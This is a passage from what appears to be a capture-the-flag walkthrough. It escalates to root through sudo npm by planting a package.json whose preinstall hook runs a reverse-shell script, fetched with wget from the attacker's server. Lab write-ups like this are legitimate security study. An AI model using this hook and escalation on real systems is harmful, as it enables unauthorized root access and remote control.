 ```
{
  "name": "anymuz",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "preinstall": "/bin/bash /home/algernon/app/anymuz/rootshell"
  },
  "author": "",
  "license": "ISC"
}
```

Now, let’s host our modified malicious ‘package.json’ file along with a copy of our original reverse shell bash script with a different port on our python server. Once our new files are hosted we can go back to the user shell, remove the old 'package.json' file and then download both the new shell (which I named ‘rootshell’) and our malicious ‘package.json’ to the temporary directory using wget.

![img](assets/wget_stuff.png)

With a new listener running to receive connections on the port specified in the new shell on our attacking host, let’s now use the user shell we have to execute the command ``sudo /usr/bin/npm i [directory] --unsafe`` on the target. The command takes the directory the JSON package is in as an argument, npm can tell something is fishy and will refuse to run the command which is why we append ``--unsafe``  to the command to make it ignore the risk. Once the npm command is executed via sudo it will automatically install the ‘package.json’ in that directory and in doing so will also start our newly uploaded shell with root permission.
